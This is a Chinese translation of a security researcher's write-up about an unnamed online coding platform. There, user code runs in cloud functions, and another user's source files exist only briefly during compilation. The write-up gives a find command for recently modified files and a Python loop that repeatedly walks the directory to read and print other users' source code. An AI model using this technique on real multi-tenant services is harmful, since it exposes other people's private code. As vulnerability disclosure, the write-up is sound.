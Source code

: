 # 检索用户的源代码

> 原文：<https://infosecwriteups.com/retrieve-users-source-code-496994083047?source=collection_archive---------1----------------------->

![](img/a8affe5cfcad0fb4dd4fe3f908b97258.png)

马库斯·斯皮斯克在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的照片

任何用户都可以执行服务器外壳命令并查看其他用户的源代码。

开发人员是 casper 的角色，所以我不会透露应用程序的名称。提示:也许它是最有名的。XX 是一个应用程序，主要由希望学习编程的人使用。它允许一个人用任何编程语言来写。编译和二进制执行是在服务器端完成的。你可以想象可执行的二进制文件可能是一个反向 shell，对吗？:).尽管这是真的，但代码是在云函数中执行的，长时间执行一个函数会使主机负担过重。

那么，谷歌云功能的有限环境是如何帮助我找到除了我自己的源代码以外的任何东西的呢？枚举是关键。

检查在过去 5 分钟内修改了哪些文件:

```
find / -type f -mmin -5 ! -path "/proc/*" ! -path "/sys/*" ! -path "/run/*" ! -path "/dev/*" ! -path "/var/lib/*" 2>/dev/null
```

尝试访问这些文件是不可能的，因为文件不存在:/

因此，假设文件被放在服务器上，被编译、执行，然后被删除。

那么，当文件不存在时，如何读取文件呢？它就在那里。至少有一会儿。这就是检索文件的方式:

```
#python 2.7.15
​
from os import walk
​
dr = {}
​
while True:
  for (dirpath, dirnames, filenames) in walk("/basedirectory"):
    for f in filenames:
      if dr.has_key(f) == False:
        dr[f] = True
        print dirpath, f
        try:
          print open(dirpath + "/" + f,"r").read()
        except:
          pass
```

当源代码被编译或二进制代码被执行时，读取其他用户的源代码。在程序完成之前，可以找到并检索其源代码:

![](img/862eee48861c93134e6088abaee164be.png)

执行程序的输出:读取其他用户的源代码

我也分析过其他编码应用程序，其中大多数都有访问控制和边界问题。

狩猎愉快！